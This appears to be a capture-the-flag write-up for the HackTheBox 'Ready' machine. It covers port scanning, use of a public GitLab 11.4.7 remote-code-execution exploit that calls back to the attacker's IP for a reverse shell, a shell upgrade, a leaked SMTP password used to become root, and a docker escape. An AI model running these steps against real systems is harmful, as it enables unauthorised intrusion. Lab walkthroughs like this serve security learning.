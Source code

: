 ![Ready](images/banner.png)
==================
```
Nmap scan report for 10.10.10.220
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen
``` 
On this machine we found open ports at 22 (SSH) and 5080. Visting the website on port 5080 we are given a Sign In Page of GitLab.
We can create a new User.

On the help page we find the version number with the hint to update asap:

![gitlabhelp.png](images/gitlabhelp.png)

Searching online for vulnerabilities of that version we find:
https://github.com/ctrlsam/GitLab-11.4.7-RCE

with:
```
python3 exploit.py -u [selbst_erstellter_user] -p [selbst_erstelltes_passwort] -g http://ready.htb -l [DEINE_IP_DU_SHIT] -P 4444
```
and a listener we al#ready# got user access.
The exploit will create a project and do some magic to get a shell.

root:
-------------------

To get a better shell we can use:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
With a little bit of enumeration an the standard john password grepper we find an password in /opt/backup/gitlab.rb.
In the gitlab.rb the gitlab rails smtp password is set to: wW59U!ZKMbG9+*#h

Just by trying 'su' and the given password we became root. But we are still inside the docker.
To escape we can use: https://github.com/PercussiveElbow/docker-escape-tool

quite enough:
```
./docker-escape check
```
An other way: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

Now we escaped the docker and rooted the machine.

